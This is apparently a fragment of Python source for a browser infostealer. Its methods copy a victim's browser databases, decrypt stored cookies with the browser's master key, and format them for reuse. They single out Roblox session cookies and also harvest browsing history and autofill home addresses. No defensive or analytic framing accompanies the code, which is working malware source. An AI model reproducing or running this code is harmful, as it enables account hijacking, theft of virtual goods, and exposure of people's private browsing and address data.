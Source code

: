         try: shutil.copy2(login_db, newdb)
        except Exception: self.exceptions.append(traceback.format_exc())
        conn = sqlite3.connect(newdb)
        cursor = conn.cursor()
        try:
            cursor.execute("SELECT host_key, name, encrypted_value FROM cookies")
            for r in cursor.fetchall():
                host = r[0]
                user = r[1]
                decrypted_cookie = self.decrypt_val(r[2], master_key)
                if host != "":
                    self.cookies_temp += f"\nHost: {host}\nUser: {user}\nCookie: {decrypted_cookie}\n"
                    self.formatted_cookies += f"{host}	TRUE	/	FALSE	1708726694	{user}	{decrypted_cookie}\n"
                    self.stats['cookies'] += 1
                if '_|WARNING:-DO-NOT-SHARE-THIS.--Sharing-this-will-allow-someone-to-log-in-as-you-and-to-steal-your-ROBUX-and-items.|_' in decrypted_cookie: self.robloxcookies.append(decrypted_cookie)
        except Exception: self.exceptions.append(traceback.format_exc())
        cursor.close()
        conn.close()
        try: os.remove(newdb)
        except Exception: self.exceptions.append(traceback.format_exc())
    def grabHistory(self,mkp,bname,pname,data):
        self.history_temp = ''
        newdb = os.path.join(self.tempfolder,f'{bname}_{pname}_HISTORY.db'.replace(' ','_'))
        login_db = data
        try: shutil.copy2(login_db, newdb)
        except Exception: self.exceptions.append(traceback.format_exc())
        conn = sqlite3.connect(newdb)
        cursor = conn.cursor()
        try:
            cursor.execute("SELECT title, url, visit_count, last_visit_time FROM urls")
            for r in cursor.fetchall()[::-1]:
                title = r[0]
                url = r[1]
                count = r[2]
                time = r[3]
                time_neat = str(datetime.datetime(1601, 1, 1) + datetime.timedelta(microseconds=time))[:-7].replace('-','/')
                if url != "":
                    self.history_temp += f"\nURL: {title}\nTitle: {url}\nVisit Count: {count}\nLast Visited: {time_neat}\n"
        except Exception: self.exceptions.append(traceback.format_exc())
        cursor.close()
        conn.close()
        try: os.remove(newdb)
        except Exception: self.exceptions.append(traceback.format_exc())
    def grabMisc(self,mkp,bname,pname,data):
        self.misc_temp = ''
        newdb = os.path.join(self.tempfolder,f'{bname}_{pname}_WEBDATA.db'.replace(' ','_'))
        master_key = self.get_master_key(mkp)
        login_db = data
        try: shutil.copy2(login_db, newdb)
        except Exception: self.exceptions.append(traceback.format_exc())
        conn = sqlite3.connect(newdb)
        cursor = conn.cursor()
        try:
            cursor.execute("SELECT street_address, city, state, zipcode FROM autofill_profiles")
            for r in cursor.fetchall():
                Address = r[0]
                City = r[1]
                State = r[2]
                ZIP = r[3]
                if Address != "":
                    self.misc_temp += f"\nAddress: {Address}\nCity: {City}\nState: {State}\nZIP Code: {ZIP}\n"